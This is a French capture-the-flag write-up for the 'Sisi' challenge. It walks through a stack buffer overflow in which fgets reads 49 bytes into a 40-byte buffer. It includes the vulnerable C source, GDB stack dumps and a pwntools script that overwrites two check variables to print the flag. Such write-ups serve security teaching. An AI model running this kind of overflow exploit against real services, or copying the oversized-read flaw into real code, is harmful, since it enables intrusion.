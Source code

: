 # Sisi

![sisi](sisi.png)

## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- L'accès à l'application se fait via un socket réseau
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme nous dit qu'on est mauvais
- Le programme quitte

```bash
$ nc challs.hackagou.nc 5005
Bienvenue sur le portail d'Open NC :)

Merci
Malheureusement, vous êtes mauvais...
```

### Analyse statique

Le challenge nous permet de télécharger le code source du binaire à exploiter sur le serveur.

Code simpliste :
- Deux variables sont définies, check et key
- Un buffer de 40 octets est défini mais la fonction fgets peut en recevoir 49, il y a sûrement un buffer overflow en vue
- Vérification des 2 variables check et key avec des valeurs inversées
- Si c'est exécution de `cat flag.txt`
- Sinon sortie du programme

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
     
int main()
{
  setvbuf(stdout, NULL, _IONBF, 0);
  
  int check=0xbebebeef;
  int key=0xcafedead;
  char buf[40];
  
  puts("Bienvenue sur le portail d'Open NC :)\n");
  fgets(buf,49,stdin);
     
  if ((check==0xcafedead) && (key==0xbebebeef))
   {
     puts("Bien joué jeune padawan, as-tu atteint ton but ?!\n");
     system("/usr/bin/cat flag.txt");
     puts("Déconnexion...\n");
   }
  else
   {
     printf("Malheureusement, vous êtes mauvais...\n");
   }
   return 0;
}

// gcc -Wall -fno-stack-protector -no-pie -o sisi sisi.c
```

La commande de compilation est fournie, en compilant avec ces paramètres, on voit que l'exécution de code depuis la stack est impossible :

```bash
$ checksec sisi
[*] '/home/opennc/sisi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow dont le but est d'écraser les valeurs des variables check et key :
- Remplir les 40 octets du buffer buffer
- Ecrire les valeurs des variables pour que le check soit juste, 8 octets au total

Commençons par regarder comment sont organisées les variables check et key dans la stack. Pour cela, nous mettons un breakpoint sur le check dans GDB et entrons une input "normale".

<pre><code>$ gdb ./sisi
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   [..]
   0x00000000004011f0 <+90>:	call   0x401090 <fgets@plt>
   <b><ins>0x00000000004011f5 <+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead</ins></b>
   0x00000000004011fc <+102>:	jne    0x401236 <main+160>
   0x00000000004011fe <+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x0000000000401205 <+111>:	jne    0x401236 <main+160>
   [...]
End of assembler dump.
gdb-peda$ break *0x00000000004011f5
Breakpoint 1 at 0x4011f5
gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

MonInput

[...]

[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ("MonInput\n")
0008| 0x7fffffffdc38 --> 0xa ('\n')
0016| 0x7fffffffdc40 --> 0x0 
0024| 0x7fffffffdc48 --> 0x0 
0032| 0x7fffffffdc50 --> 0x0 
<b><ins>0040| 0x7fffffffdc58 --> 0xbebebeefcafedead</b></ins>
0048| 0x7fffffffdc60 --> 0x1 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()</code></pre>

Nous voyons que les valeurs de check et key sont bien à partir du 40ème octet. Essayons de les écraser avec des valeurs arbitraires.

<pre><code>gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC

[...]
[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ('A' <repeats 40 times>, "BBBBCCCC")
0008| 0x7fffffffdc38 ('A' <repeats 32 times>, "BBBBCCCC")
0016| 0x7fffffffdc40 ('A' <repeats 24 times>, "BBBBCCCC")
0024| 0x7fffffffdc48 ('A' <repeats 16 times>, "BBBBCCCC")
0032| 0x7fffffffdc50 ("AAAAAAAABBBBCCCC")
<b><ins>0040| 0x7fffffffdc58 ("BBBBCCCC")</b></ins>
0048| 0x7fffffffdc60 --> 0x0 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()
</code></pre>

Nos valeurs BBBB et CCCC sont bien écrites en lieu et place des valeurs de check et key.

L'organisation en mémoire étant en little-endian, les valeurs doivent être écrites en respectant cette convention.

Ainsi, le code d'exploitation en utilisant pwntools est le suivant :

```python
#!/usr/bin/env python3

from pwn import *

conn = remote('challs.hackagou.nc', 5005)
conn.recvuntil(b'\n\n')
log.success('Received lines')
conn.send(b'A'*40 + b'\xef\xbe\xbe\xbe\xad\xde\xfe\xca')
log.success('Payload sent')
conn.interactive()
```
